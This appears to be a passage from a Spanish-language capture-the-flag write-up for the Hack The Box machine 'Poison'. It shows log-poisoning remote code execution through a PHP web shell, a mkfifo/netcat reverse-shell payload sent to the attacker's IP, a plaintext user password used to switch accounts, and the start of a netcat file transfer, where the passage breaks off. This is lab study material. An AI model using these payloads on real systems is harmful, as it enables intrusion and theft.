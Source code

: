 ```
<?php system($_GET['cmd']); ?>
```

Si nos a este ruta `view-source:http://10.129.252.206/browse.php?file=/var/log/httpd-access.log&cmd=whoami` podemos ver como el comando se ha ejecutado correctamente

![](/assets/img/Poison/image_6.png)

Vamos a mandarnos una `reverse shell` a nuestro equipo, para ello nos ponemos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

Vamos a usar este `payload` para `mandarnos` una `reverse shell` a nuestro equipo `view-source:http://10.129.252.206/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>%261|nc 10.10.16.35 4444 >/tmp/f`

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>%261|nc 10.10.16.35 4444 >/tmp/f
```

`Obtenemos` una `shell` en nuestro equipo

```
# nc -nlvp 4444             
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.252.206] 18527
sh: can't access tty; job control turned off
$ whoami
www
```

Nos `convertimos` en el usuario `charix`

```
$ which su
/usr/bin/su
$ su charix
Password:Charix!2#4%6&8(0
whoami
charix
```

## Privilege Escalation

En el directorio `/home` de `charix` me he encontrado un `.zip` interesante

```
charix@Poison:~ % ls
secret.zip	user.txt
```

Vamos a `transferirnos` el `archivo` a nuestra máquina con `netcat`, para ello nos ponemos en `escucha` en nuestra máquina
